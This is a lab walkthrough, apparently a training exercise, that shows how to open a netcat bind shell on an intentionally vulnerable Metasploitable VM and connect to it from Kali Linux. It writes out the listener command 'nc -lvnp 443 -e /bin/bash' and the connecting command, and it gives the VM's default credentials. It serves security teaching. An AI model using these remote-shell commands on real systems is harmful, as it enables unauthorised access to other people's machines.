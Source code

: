 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use netcat to establish a bind shell on a target machine.

**Lab Purpose:**

Netcat is a computer networking utility for reading from and writing to network connections using TCP or UDP.

**Lab Tool:**

Kali Linux VM and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using netcat to create a bind shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware or VirtaulBox, the same as Kali Linux. You can download the metasploitable ISO file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the metasploitable machine.

![metasploitable](attachements/Metasploitable.png)

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Setting up a bind shell with netcat is not as straightforward or practical as a reverse shell, but is still useful to know. To begin, we will go to our Metasploitable VM and open a terminal. The way a bind shell works is by creating a listener on our target machine and connecting to this listener from our

attack machine. Bind shells are not as commonly used as reverse shells as firewalls often prevent outside connections to machines in this way. However, if a reverse shell does not work on a target, it is worth trying a bind shell.

First, let’s find out the eth0 IP address of our Metasploitable VM and write it down. We will use this information on our Kali VM. Open a terminal screen in Metasploitable VM and type this command:

ifconfig

![Metasploitable](attachements/Metasploitable-1.png)

192.168.56.102 is the IP address of our Metasploitable VM in this case.

Then, type the following commands:

sudo su –  
sudo nc -lvnp 443 -e /bin/bash

![Metasploitable](attachements/Metasploitable-2.png)

You will then be asked for a password for sudo, the password by default is “msfadmin”.

-l tells netcat that this will be a listener  
-v is used to show us a verberos output  
-n tells netcat not to use DNS or resolve host names  
-p tells netcat which port to listen on

### Task 3:

We will now switch to our attack machine, which is our Kali machine. We can use a number of payloads to get the target machine to open a port and listen for connections, but, for now, we will simply be demonstrating how this works using netcat. Open a terminal screen on the Kali VM and type the following:

nc 192.168.56.102 443

![netcat](attachements/netcat-3.png)

You will now have a shell connecting your Kali machine through netcat to the target metasploitable machine. As you can see, you are now able to execute some commands (whoami, id) from your Kali machine on the Metasploitable machine.